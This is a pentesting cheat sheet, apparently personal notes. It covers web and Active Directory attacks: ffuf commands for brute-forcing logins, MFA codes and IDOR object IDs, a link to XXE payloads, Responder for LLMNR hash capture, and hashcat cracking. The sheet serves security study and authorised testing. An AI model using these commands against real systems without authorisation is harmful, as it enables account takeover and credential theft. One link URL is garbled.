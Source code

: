 ### Attacking Authentication
* with ffuf
  ```bash
  # RepLace the username/password in your req.txt with 'FUZZ'
  ffuf -request <req.txt> -w <wordlist>

  #Use custom 'FUZZ' keywords if you need to fuzz multiple fields
  ffuf -request <req.txt> -request-proto http -mode clusterbomb -w <pass.txt>:FUZZPASS -w <users.txt>:FUZZUSER -fs <filesize>
  ```
#### Attacking Authentication w/ MFA
> MFA can be brute forced the same way as basic auth w/ ffuf or burp

* with Burp Suite
  Try replacing the username in the MFA Post request to the target user

### XXE
> Useful on web applications that use xml entities (data represented as xml)
> Anywhere you can pass or upload xml, test for injection

[Best Payloads](https://payhttps://swisskyrepo.github.io/InternalAllTheThings)

### IDOR (Insecure Direct Object Reference)
> BOLA=IDOR
> find a point where you can manipulate an object ID, and change it

* Fuzzing ID's w/ ffuf
  ```bash
  ffuf -u 'URL' -w <wordlist> -fs <response size>
  ```

## AD Initial Attack Vectors
### LLMNR Poisoning w/ Responder

  * Captures hashes w/ Responder
    ```bash
    sudo Responder -I <iface> -dwPv

    # Verify that all of the Poisoners/Servers are on
    ```
  * Crack the hashes w/ Hashcat
    ```bash
    # Make sure to copy the entire hash, including username and domain
    hashcat -a 0 -m 5600 <hashes file> <wordlist> -O

    # Show the hashes from that run that have already been cracked
    hashcat -a 0 -m 5600 <hashes file> <wordlist> --show
